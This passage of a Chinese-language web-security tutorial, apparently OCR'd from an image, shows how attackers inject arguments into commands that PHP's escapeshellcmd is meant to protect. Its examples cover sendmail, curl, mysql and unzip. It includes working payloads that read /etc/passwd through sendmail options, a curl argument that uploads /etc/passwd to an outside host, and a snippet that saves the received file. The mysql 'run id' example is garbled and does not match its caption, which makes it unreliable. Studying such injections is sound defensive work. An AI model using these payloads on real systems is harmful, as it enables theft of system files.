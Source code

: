 特定选项利用：

打印/etc/passwd内容

```php
$from = 'from@sth.com -C/etc/passwd -X/tmp/output.txt';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' < mail.txt');
```

###### CURL

下载http://example.com内容

```php
$url = 'http://example.com';
system(escapeshellcmd('curl '.$url));
```

特定选项利用：

发送/etc/passwd内容到http://example.com

```php
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

得到文件内容，使用如下payload

```php
file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name']));
```

###### MYSQL

执行sql语句

```php
$sql = 'SELECT sth FROM table';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));
```

特定选项利用：

运行id命令

```php
$sql = 'cat /etc/passwd|grep tmp_name id';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));
```

###### UNZIP

从archive.zip解压所有*.tmp文件到/tmp目录

```php
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.tmp -d /tmp'));
```

特定选项利用：

从archive.zip解压所有*.tmp文件到/var/www/html目录
